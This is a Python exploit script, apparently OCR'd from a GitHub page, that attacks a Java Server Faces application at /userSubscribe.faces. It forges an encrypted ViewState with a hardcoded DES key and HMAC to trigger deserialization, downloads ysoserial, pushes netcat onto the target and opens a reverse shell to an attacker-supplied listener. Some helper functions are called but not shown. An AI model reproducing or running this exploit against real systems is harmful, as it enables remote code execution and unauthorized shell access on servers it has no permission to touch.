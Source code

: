 ```py

def encrypt_payload(payload):
    key = b64decode('SnNGOTg3Ni0=')
    obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    enc = obj.encrypt(payload)
    hash_val = (hmac.new(key, bytes(enc), sha1).digest())
    payload = enc + hash_val
    return b64encode(payload)

def decrypt_view_state(view_state):
    key = b64decode('SnNGOTg3Ni0=')
    obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    view_state = b64decode(view_state)
    view_state = view_state + b'\x00\x00\x00\x00'
    dec = obj.decrypt(view_state)
    return dec

def exploit():
    view_state = create_payload()
    data = { 'javax.faces.ViewState' : view_state }
    r.post(url, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port
    global url
    url = 'http://%s:8080/userSubscribe.faces' %rhost

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Let's set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # First we need to download the yososerial
    downloadPayGen()
    # Now download the nc on the remote box
    downloadNcRemote(lhost)
    # Now let's get the reverse shell
    getReverseShell(lhost,lport)

if __name__ == '__main__':
    main()
```
